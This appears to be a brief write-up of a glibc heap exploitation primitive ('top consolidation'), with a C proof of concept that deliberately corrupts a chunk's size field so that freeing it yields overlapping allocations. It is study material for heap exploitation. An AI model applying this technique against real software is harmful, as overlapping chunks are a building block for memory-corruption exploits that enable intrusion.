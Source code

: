 ## top consolidation

**Purpose:** We can have two separate chunks allocated to the same space, no need heap leak (no need to create fake main_arena)

**Require:** Have an ability to change the metadata of the allocated chunks

## PoC

```c
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);

    long *chunk0, *chunk1, *chunk2, *chunk3;

    chunk0 = malloc(0x420);
    chunk1 = malloc(0x80);

    /* VULN HERE */
    chunk0[-1] = ((0x420 + 0x10) + (0x80 + 0x10)) + 0x1; // Extend the size of chunk0 to include chunk1
    /* VULN HERE */

    free(chunk0); // Consolidate

    chunk2 = malloc(0x420); // Can padding depend on purpose
    chunk3 = malloc(0x80); // This should be the same as chunk1

    assert(chunk1 == chunk3); // If we can allocate the same chunk again, we win!
}
```
